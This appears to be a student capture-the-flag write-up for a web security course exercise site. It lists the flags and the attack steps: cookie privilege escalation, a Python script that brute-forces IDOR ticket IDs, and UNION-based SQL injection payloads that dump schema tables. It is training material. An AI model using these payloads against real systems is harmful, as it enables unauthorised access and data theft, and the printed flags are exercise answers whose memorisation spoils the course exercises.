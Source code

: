 ## Sales
### Cookie poisoning
#### COMP6443{WhY_Ev3n_H4vE_A_l0g1n}
1. Check cookie. The cookies is base64+url encoded. 
2. Decode the cookie, it gives *admin=0*. 
3. Escalate to the admin privilege by manipulating the data to *admin=1*, then base64+url encode.
4. Refresh the page and the user is logged in as admin.

## Support
### IDOR
#### COMP6443{DDDDDDDDr0P_D@_Ba5e}
#### COMP6443{YoU_r3lLy_Wen7_D1ggiNG_HuH}
1. Create a new ticket. IT redirects to a page to view ticket. 
2. Pay attention to the url of the page: `https://support.quoccabank.com/raw/7EG6Xov`, where *7EG6Xov* is encoded in base58.
3. Decode it gives *751:1*, means *user:ticket*.
4. Brute-force the pair, base58 encode and get request.
```python
import requests
import base58
from urllib3.exceptions import InsecureRequestWarning

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

for user in range(1, 10000):
    for ticket in range(1, 10000):
        print(f"Trying {user}:{ticket}")
        r = requests.get(f"https://support.quoccabank.com/raw/{base58.b58encode(str(user) +':'+ str(ticket)).decode('utf-8')}", proxies=proxies, verify=False)
        if ("COMP" in r.text):
            f = open("flags.txt", "a")
            f.write(r.text)
            break
    else:
        continue
    break
```

## Payportal
### SQLi
#### COMP6443{SQLiIsPowerful}
1. Search `"` tells the SQL syntax.
2. Search `" or 1=1; -- test`.
#### COMP6443{oh_no_im_getting_fired}
1. Search `" or 1=1 union select 1,1,1,1,1,1,1,table_name from information_schema.tables; -- test` to get all tables in the schema.
2. This leaks tables name: *payportal*, *upcoming_layoffs*. 
3. To view columns in *upcoming_layoffs*, search `" or 1=1 union select 1,1,1,1,1,1,1,column_name from information_schema.columns where table_name='upcoming_layoffs'; -- test`.
4. The *upcoming_layoffs* table contains id, staff_id, date, reason columns.
5. To view *upcoming_layoffs*, search " or 1=1 union select 1,1,1,1, id, staff_id, date, reason from upcoming_layoffs -- test`.
